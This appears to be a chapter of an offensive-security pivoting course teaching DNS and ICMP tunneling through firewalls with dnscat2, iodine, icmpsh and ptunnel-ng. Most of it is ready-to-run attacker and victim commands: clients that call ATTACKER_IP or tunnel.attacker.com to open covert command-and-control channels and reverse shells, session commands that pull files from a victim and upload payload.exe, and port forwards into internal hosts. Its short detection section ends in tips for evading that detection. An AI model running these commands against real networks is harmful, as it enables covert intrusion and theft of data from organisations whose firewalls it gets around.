



# 🌐 DNS & ICMP Tunneling

> **Level: 🔴 Advanced**
> Bypass restrictive firewalls by tunneling data through DNS and ICMP protocols.

---

## 📖 Table of Contents

1. [Why DNS & ICMP Tunneling?](#-1-why-dns--icmp-tunneling)
2. [DNS Tunneling Explained](#-2-dns-tunneling-explained)
3. [Tool: dnscat2](#-3-tool-dnscat2)
4. [Tool: iodine](#-4-tool-iodine)
5. [ICMP Tunneling Explained](#-5-icmp-tunneling-explained)
6. [Tool: icmpsh](#-6-tool-icmpsh)
7. [Tool: ptunnel-ng](#-7-tool-ptunnel-ng)
8. [Detection & Evasion](#-8-detection--evasion)
9. [When to Use What](#-9-when-to-use-what)

---

## 🧠 1. Why DNS & ICMP Tunneling?

### The Problem: Ultra-Restrictive Firewalls

Sometimes outbound traffic is heavily restricted:

```
┌──────────────────┐    FIREWALL    ┌──────────────────┐
│  Compromised     │               │    Internet       │
│  Host            │               │                   │
│                  │               │                   │
│  ❌ HTTP blocked  │               │                   │
│  ❌ HTTPS blocked │               │                   │
│  ❌ SSH blocked   │               │                   │
│  ✅ DNS allowed   │──────────────→│  (Port 53)        │
│  ✅ ICMP allowed  │──────────────→│  (Ping/ICMP)      │
└──────────────────┘               └──────────────────┘
```

**DNS and ICMP are almost always allowed** because:
- DNS is required for name resolution (always needed)
- ICMP is used for diagnostics (ping, traceroute)

### The Idea

Encode your data **inside** DNS queries or ICMP packets to sneak it through the firewall!



---

## 📡 2. DNS Tunneling Explained

### How DNS Tunneling Works

1. Attacker sets up a **DNS server** for a domain they control
2. Compromised host sends data encoded as **DNS queries** (subdomains)
3. Attacker's DNS server **decodes** the data and sends responses

### Example Data Encoding

```
Normal DNS:     www.google.com     → Resolves an IP
DNS Tunnel:     SGVsbG8gV29ybGQ.tunnel.attacker.com → "Hello World" in base64
```

The data is hidden in the **subdomain** of the DNS query!

### Flow



---

## 🔧 3. Tool: dnscat2

### What is dnscat2?

**dnscat2** creates an encrypted command-and-control (C2) channel through DNS. It provides an interactive shell through DNS queries.

### Setup

#### On Attacker: Server

```bash
# Install
sudo apt install dnscat2
# Or from source:
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server
gem install bundler
bundle install

# Start server (direct mode — no domain needed for lab)
ruby dnscat2.rb
```

Output:
```
dnscat2> New window created: 0
dnscat2> Session established!
dnscat2> Secret: abc123def456
```

#### On Compromised Host: Client

```bash
# Linux
./dnscat attacker_ip

# With secret (encrypted)
./dnscat --secret abc123def456 attacker_ip

# Through corporate DNS (specify domain)
./dnscat --dns domain=tunnel.attacker.com
```

#### Windows Client

```powershell
# PowerShell dnscat2 client
Import-Module .\dnscat2.ps1
Start-Dnscat2 -DNSServer attacker_ip -Domain tunnel.attacker.com
```

### dnscat2 Usage

```bash
# In dnscat2 server console:
dnscat2> windows          # List sessions
dnscat2> window -i 1      # Interact with session 1

# Commands in session:
command (victim)> shell    # Get interactive shell
command (victim)> exec cmd.exe
command (victim)> download C:\Users\admin\secret.txt
command (victim)> upload payload.exe C:\temp\
```

### Port Forwarding Through dnscat2

```bash
# In dnscat2 session:
command (victim)> listen 0.0.0.0:4444 10.10.10.5:445
```

This opens port 4444 on the victim, forwarding to internal 10.10.10.5:445 — all through DNS!

### dnscat2 Key Features

| Feature | Details |
|---------|---------|
| Encrypted | AES encryption |
| Interactive shell | Full command shell |
| Port forwarding | Listen/forward through DNS |
| File transfer | Upload/download files |
| No domain required | Direct mode for labs |
| Domain mode | Uses actual DNS for real attacks |

---

## 🔧 4. Tool: iodine

### What is iodine?

**iodine** creates a full **IP tunnel** through DNS. Unlike dnscat2, it gives you a virtual network interface — similar to a VPN through DNS.

### Setup

#### Prerequisites

- **You need a domain** you control (e.g., `tunnel.yourdomain.com`)
- NS record pointing to your server

#### DNS Configuration

```
# In your domain's DNS settings:
tunnel.yourdomain.com    NS    ns.yourdomain.com
ns.yourdomain.com        A     YOUR_SERVER_IP
```

#### On Attacker: Server

```bash
sudo apt install iodine

# Start server
sudo iodined -c -P password 10.0.0.1/24 tunnel.yourdomain.com
```

| Flag | Meaning |
|------|---------|
| `-c` | Don't check client IP |
| `-P password` | Set tunnel password |
| `10.0.0.1/24` | IP range for tunnel |
| `tunnel.yourdomain.com` | Your tunnel domain |

#### On Compromised Host: Client

```bash
sudo iodine -P password tunnel.yourdomain.com

# Or specify DNS server directly (for lab)
sudo iodine -P password ATTACKER_IP tunnel.yourdomain.com
```

After connection:
```
Client gets IP: 10.0.0.2
Server has IP:  10.0.0.1
```

#### Use the Tunnel

```bash
# SSH through DNS tunnel
ssh user@10.0.0.1

# Full connectivity!
ping 10.0.0.1
scp file.txt user@10.0.0.1:/tmp/
```

### iodine vs dnscat2

| Feature | dnscat2 | iodine |
|---------|---------|--------|
| Type | C2 channel | IP tunnel (VPN) |
| Interface | Command shell | TUN device |
| Speed | Slow | Faster |
| Full IP routing | ❌ | ✅ |
| Encryption | ✅ AES | ❌ (use SSH over it) |
| Needs root on victim | ❌ | ✅ (for TUN) |
| Domain required | Optional | ✅ Yes |

---

## 🧊 5. ICMP Tunneling Explained

### How ICMP Tunneling Works

ICMP packets (ping) have a **data section** that can carry arbitrary data. Tunneling tools encode your traffic in this data field.

```
Normal ping:
  ICMP Echo Request → 32 bytes of padding → ICMP Echo Reply

ICMP tunnel:
  ICMP Echo Request → ENCODED COMMAND DATA → ICMP Echo Reply → RESPONSE DATA
```

### Why ICMP Works

- Almost every network allows ICMP (for troubleshooting)
- Firewalls rarely inspect ICMP payload data
- Stateless — no connection tracking to worry about

---

## 🔧 6. Tool: icmpsh

### What is icmpsh?

**icmpsh** is a simple reverse ICMP shell. The compromised host sends commands encapsulated in ICMP echo/reply packets.

### Setup

#### On Attacker: Listener

```bash
# Install
git clone https://github.com/bdamele/icmpsh.git
cd icmpsh

# IMPORTANT: Disable kernel ICMP replies (they interfere)
sudo sysctl -w net.ipv4.icmp_echo_ignore_all=1

# Start listener
sudo python3 icmpsh_m.py ATTACKER_IP VICTIM_IP
```

#### On Victim (Windows): Client

```cmd
icmpsh.exe -t ATTACKER_IP
```

#### On Victim (Linux): Client

```bash
# Using python
python3 icmpsh-s.py ATTACKER_IP
```

### Result

You get an interactive shell, all through ICMP packets!

### Re-enable ICMP when done

```bash
sudo sysctl -w net.ipv4.icmp_echo_ignore_all=0
```

### icmpsh Limitations

| ❌ Limitation | Details |
|--------------|---------|
| No encryption | Data is in plaintext inside ICMP |
| Slow | ICMP isn't designed for bulk data |
| Shell only | No port forwarding or file transfer |
| Detection | Unusual ICMP payload sizes are detectable |

---

## 🔧 7. Tool: ptunnel-ng

### What is ptunnel-ng?

**ptunnel-ng** creates a TCP tunnel encapsulated in ICMP packets. Unlike icmpsh (shell only), ptunnel forwards actual TCP ports.

### Setup

#### On Attacker: Server (Proxy)

```bash
# Install
sudo apt install ptunnel-ng
# Or from source:
git clone https://github.com/utoni/ptunnel-ng.git
cd ptunnel-ng && autoreconf -fi && ./configure && make

# Start proxy
sudo ptunnel-ng -r -R22
```

| Flag | Meaning |
|------|---------|
| `-r` | Run as server (relay) |
| `-R22` | Default destination port (SSH) |

#### On Compromised Host: Client

```bash
# Forward local port 2222 through ICMP tunnel to attacker's SSH
sudo ptunnel-ng -p ATTACKER_IP -l 2222 -r ATTACKER_IP -R22
```

#### Use the Tunnel

```bash
# SSH through ICMP tunnel
ssh -p 2222 user@localhost
# This connects to ATTACKER_IP:22 through ICMP!
```

### ptunnel-ng with Password

```bash
# Server
sudo ptunnel-ng -r -R22 -x secretpassword

# Client
sudo ptunnel-ng -p ATTACKER_IP -l 2222 -r ATTACKER_IP -R22 -x secretpassword
```

### Forward Any Port

```bash
# Forward to internal web server
sudo ptunnel-ng -p ATTACKER_IP -l 8080 -r 10.10.10.5 -R80

# Forward to internal RDP
sudo ptunnel-ng -p ATTACKER_IP -l 3389 -r 10.10.10.5 -R3389
```

---

## 🛡️ 8. Detection & Evasion

### How DNS Tunneling is Detected

| Indicator | Details |
|-----------|---------|
| High DNS query volume | Thousands of queries per minute |
| Unusual subdomain lengths | Very long, encoded subdomain names |
| High entropy in subdomain | base64/hex encoded data |
| Queries to unknown domain | New domain not seen before |
| TXT record abuse | Large TXT responses unusual |

### How ICMP Tunneling is Detected

| Indicator | Details |
|-----------|---------|
| Large ICMP packets | Normal ping: ~64 bytes; tunnel: much larger |
| High ICMP frequency | Rapid-fire ICMP packets |
| ICMP to unusual hosts | Pinging external IPs constantly |
| Payload analysis | Non-standard data in ICMP payload |

### Evasion Tips

```bash
# DNS: Use shorter encoding, reduce query rate
# DNS: Use legitimate-looking subdomains
# ICMP: Keep packet sizes normal (< 64 bytes)
# ICMP: Add delays between packets
# Both: Use encrypted payloads
```

---

## 📊 9. When to Use What

| Situation | Tool |
|-----------|------|
| Only DNS (53) allowed outbound | **dnscat2** or **iodine** |
| Need interactive shell via DNS | **dnscat2** |
| Need full IP tunnel via DNS | **iodine** |
| Only ICMP allowed outbound | **icmpsh** or **ptunnel-ng** |
| Need shell via ICMP | **icmpsh** |
| Need TCP port forwarding via ICMP | **ptunnel-ng** |

### Decision Flow



> ⚠️ DNS and ICMP tunneling are **slow** compared to TCP tunnels. Use them only when other options are blocked.

---

## ⏮️ [← Double Pivoting](./08_double_pivoting_advanced.md) | ⏭️ [Pivoting Cheatsheet →](./10_pivoting_cheatsheet.md)
